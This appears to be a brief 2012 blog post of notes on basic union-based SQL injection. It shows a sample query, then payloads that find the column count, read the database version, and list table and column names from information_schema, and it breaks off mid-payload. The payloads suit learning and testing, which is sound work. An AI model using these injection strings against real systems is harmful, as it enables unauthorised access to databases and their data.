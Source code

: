 ```yaml
---
layout: post
title: "basic sql injection"
date: 2012-10-04 17:18:44
tags: ["sql", "sql", "injection"]
---
```


```sql
SELECT user
FROM users 
WHERE user.name = 'jeffrey';
```


1. FIND NUMBER OF COLUMNS  
	"order by" trick - test if you can order by a column number

2. NOW WE CAN DO A UNION (# OF COLUMNS MUST MATCH)  
	' union select 1,2,3,version() -- -

3. NOW WE CAN GET TABLE, COLUMN, AND DATABASE INFO  
	' union select 1,2,3,table_name from information_schema.tables where table_schema="x8250" -- -  
  ' union select 1,2,3,column_name from information_schema.columns where table...
